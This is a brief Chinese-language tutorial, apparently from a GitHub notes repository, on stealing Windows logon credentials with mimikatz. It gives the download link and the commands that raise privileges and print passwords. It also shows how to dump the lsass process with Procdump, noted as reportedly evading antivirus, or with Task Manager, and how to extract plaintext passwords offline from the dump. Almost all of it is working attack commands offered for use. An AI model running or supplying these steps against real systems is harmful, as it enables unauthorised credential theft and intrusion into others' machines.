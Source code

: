 # mimikatz

## 直接使用方法

下载地址：`https://github.com/gentilkiwi/mimikatz/releases`  
下载到windows机器中，运行该软件，输入如下图的两条命令即可完成密码抓取。  

1. 提升权限：privilege::debug
2. 抓取密码：sekurlsa::logonpasswords  
![xx](https://raw.githubusercontent.com/1120362990/Paper/master/images/paper-mimikatz-1.png)

## 无法直接利用的情况

导出lsass进程离线读取密码。  

### 使用工具导出lsass文件

工具下载链接：这种方式导出lsass据说不会报毒  
`http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx`  
`https://github.com/1120362990/Paper/raw/master/tools/Procdump.zip`  

下载完成后运行如下命令即可导出 lsass.dmp 文件  
`Procdump.exe -accepteula -ma lsass.exe lsass.dmp`

### 在任务管理器中导出lsass文件

如下图点击即可导出lsass文件  
![xx](https://raw.githubusercontent.com/1120362990/Paper/master/images/paper-mimikatz-2.png)

文件导出位置，导出后会显示  
![xx](https://raw.githubusercontent.com/1120362990/Paper/master/images/paper-mimikatz-3.png)

在windows主机中运行如下命令，对导出的lsass文件进行分析即可得到明文密码  
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit  
![xx](https://raw.githubusercontent.com/1120362990/Paper/master/images/paper-mimikatz-4.png)
